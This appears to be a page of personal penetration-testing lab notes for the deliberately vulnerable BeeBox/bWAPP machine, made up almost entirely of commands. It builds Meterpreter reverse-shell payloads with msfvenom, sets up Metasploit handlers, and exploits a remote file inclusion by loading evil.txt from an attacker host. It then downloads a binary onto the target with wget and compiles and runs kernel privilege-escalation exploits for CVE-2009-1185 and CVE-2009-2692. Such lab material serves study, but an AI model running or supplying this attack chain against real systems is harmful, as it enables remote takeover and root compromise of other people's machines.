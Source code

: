 ###BeeBox###
"/multi/handler" can be used for txt file reverse shell

msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.112.4 LPORT=4446 -f raw -o /var/www/html/evil.txt
msfconsole 
use exploit/multi/handler
set LPORT 4446
set LHOST 192.168.112.4
set PAYLOAD php/meterpreter_reverse_tcp
run

***Remote & Local File Inclusion (RFI/LFI)***

http://192.168.1.135/bWAPP/rlfi.php?language=lang_en.php&action=go
?language=http://192.168.112.4/evil.txt

python -c 'import pty; pty.spawn("/bin/sh")'
id
whoami

On Kali:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.112.4 LPORT=5000 -f elf -o /var/www/html/run
service apache2 
msfconsole
use exploit/multi/handler
set LHOST 192.168.112.4
set LPORT 5000
set PAYLOAD linux/x86/meterpreter/reverse_tcp

On BeeBox:
wget http://192.168.112.4/run -o /tmp/cd un
gcc cve-2009-1185.c -o /tmp/privescalation
chmod +x /tmp/privescalation
cd /tmp
ps aux | grep udev
./privescalation (PID discovered with grep minus 1 - e.g. 2864 - 1 = 2863)


**Easy Way**
tar -xvf cve-2009-2692.tar
cd cve-2009-2692
sh cve-2009-2692.sh
